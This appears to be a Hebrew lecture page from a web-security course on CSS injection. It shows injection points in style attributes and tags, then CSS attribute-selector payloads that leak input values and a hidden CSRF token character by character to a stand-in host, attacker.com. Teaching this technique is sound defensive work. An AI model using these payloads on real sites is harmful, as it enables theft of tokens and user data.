

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/4 - תקיפות צד לקוח מתקדמות/4.7 - הזרקת CSS ואקספילטרציה/4.7 - הזרקת CSS ואקספילטרציה - הרצאה/index.html · generator: mkdocs

# הזרקת CSS ואקספילטרציה - CSS Injection and Exfiltration

## הinjection CSS - יסודות

הinjection CSS מתרחשת כאשר תוקף יכול להחדיר תוכן CSS לדף. למרות ש-CSS אינו שפת תכנות, ניתן לנצל אותו לexfiltration מידע רגיש מהדף.

### נקודות injection נפוצות

```html
<!-- injection via style attribute -->
<div style="USER_INPUT_HERE"></div>

<!-- injection via style tag -->
<style>
  .widget { color: USER_INPUT_HERE; }
</style>

<!-- injection via CSS import -->
<link rel="stylesheet" href="https://example.com/style?theme=USER_INPUT">
```

דוגמה לinjection:

```
input: red; } body { background: url(https://attacker.com/css-injected) } .x {
result:
<style>
  .widget { color: red; }
  body { background: url(https://attacker.com/css-injected) }
  .x { }
</style>
```

## הexfiltration מידע עם Attribute Selectors

הטכניקה המרכזית - שימוש ב-CSS attribute selectors כדי לזהות ערכים של שדות input:

```css
/* check if the input value starts with 'a' */
input[value^="a"] {
  background: url(https://attacker.com/exfil?char=a);
}

/* check if the input value starts with 'b' */
input[value^="b"] {
  background: url(https://attacker.com/exfil?char=b);
}

/* and so on for every possible character */
```

כאשר הדפדפן מוצא input שערכו מתחיל ב-`a`, הוא טוען את ה-URL של התוקף. התוקף יודע את התו הראשון.

### הexfiltration CSRF token

אם בדף יש input מוסתר עם CSRF token:

```html
<input type="hidden" name="csrf_token" value="a7f3b2c9d1e4">
```

ה-CSS של התוקף:

```css
input[name="csrf_token"][value^="a"] { background: url(https://attacker.com/exfil?v=a); }
input[name="csrf_token"][value^="b"] { background: url(https://attacker.com/exfil?v=b); }
/* ... */
input[name="csrf_token"][value^="a7"] { background: url(https://attacker.com/exfil?v=a7); }
input[name="csrf_token"][value^="a8"] { background: url(https://attacker.com/exfil?v=a8); }
/* ... */
```

הבעיה: צריך לשלוח CSS חדש לכל תו, כי צריך לדעת את התו הקודם לפני שבודקים את הבא.
